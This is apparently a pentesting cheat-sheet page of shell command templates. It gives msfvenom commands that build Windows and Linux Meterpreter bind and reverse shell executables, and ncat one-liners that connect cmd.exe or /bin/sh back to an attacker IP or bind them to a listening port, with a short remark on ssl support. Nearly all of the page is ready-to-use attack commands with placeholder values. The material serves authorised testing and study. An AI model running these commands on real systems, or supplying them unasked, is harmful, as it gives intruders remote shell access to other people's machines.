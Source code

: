#### Command Basic Format
```bash
msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<Attacker_listen_port> -f <format> -o <output_file>
```
#### Bind Shell
```bash
# Windows
msfvenom -p windows/meterpreter/bind_tcp RHOST=<target_ip> LPORT=<target_listen_port> -f exe -o <output_file.exe>

# Linux
msfvenom -p linux/<arch>/meterpreter/bind_tcp RHOST=<target_ip> LPORT=<target_listen_port> -f elf -o <output_file>

```
#### Reverse Shell
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<Attacker_listen_port> -f exe -o <output_file.exe>

# Linux
msfvenom -p linux/<arch>/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<Attacker_listen_port> -f elf -o <output_file>
```
---

### Netcat
[Netcat](https://nmap.org/ncat/) is a command-line tool used for creating TCP and UDP connections. It can be used to create a reverse shell or Bind shell.

#### Reverse Shell
```bash
# Windows
ncat.exe -e cmd.exe <attacker_ip> <Attacker_listen_port> --ssl
# Linux
ncat -e /bin/sh <attacker_ip> <Attacker_listen_port> --ssl
```

#### Bind Shell
```bash
# Windows
ncat -l -p <listen_port> -e cmd.exe --ssl
# Linux
ncat -l -p <listen_port> -e /bin/sh --ssl
```

> Warning: `Ncat` is the newer version of NetCat and is more secure, that's why is has ssl support, in the oldest versions (`nc` and `nc.exe`) you can't use ssl. (just don't use `--ssl`), but is plain  text.
{: .prompt-warning }
---
